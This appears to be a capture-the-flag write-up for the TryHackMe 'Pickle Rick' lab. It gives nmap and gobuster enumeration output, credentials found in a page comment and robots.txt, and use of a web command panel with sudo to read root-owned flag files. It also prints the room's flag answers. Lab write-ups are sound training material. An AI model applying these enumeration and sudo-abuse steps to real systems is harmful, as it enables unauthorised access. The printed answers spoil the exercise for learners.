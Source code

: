 #TryHackMe 
# Enumeration
# Nmap
┌──(root㉿kali)-[~]
└─# nmap -Pn -script=vuln -v thm
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
| http-sql-injection: 
|   Possible sqli for queries:
|     http://thm:80/assets/?C=D%3BO%3DA%27%20OR%20sqlspider
|     ... ...
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-dombased-xss: Couldn't find any DOM based XSS.

## In web page source
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->

## gobuster
┌──(root㉿kali)-[~]
└─# gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://thm/ -x php,html,txt
	/assets               (Status: 301) [Size: 295] [--> http://thm/assets/]
	/index.html           (Status: 200) [Size: 1062]
	/login.php            (Status: 200) [Size: 882]
	/robots.txt           (Status: 200) [Size: 17]


# Find 
## In web page source
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
## in robots.txt
┌──(root㉿kali)-[~]
└─# curl http://morty.thm/robots.txt    
Wubbalubbadubdub

## loginphp creds = [R1ckRul3s]:[Wubbalubbadubdub]

## in http://morty.thm/portal.php#
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
base64 decode 5x = rabbit hole

# FootHold
![[Pasted image 20230425215722.png]]

[www-data@ip-10-10-75-128:/var/www/html$] ls   
	Sup3rS3cretPickl3Ingred.txt
	assets
	clue.txt
	denied.php
	index.html
	login.php
	portal.php
	robots.txt
	
[www-data@ip-10-10-75-128:/var/www/html$] cat Sup3rS3cretPickl3Ingred.txt
	mr. meeseek hair

[www-data@ip-10-10-246-26:/home/rick$] sudo cat second\ ingredients 
	1 jerry tear

[www-data@ip-10-10-246-26:/home/rick$] sudo cat /root/3rd.txt
	3rd ingredients: fleeb juice

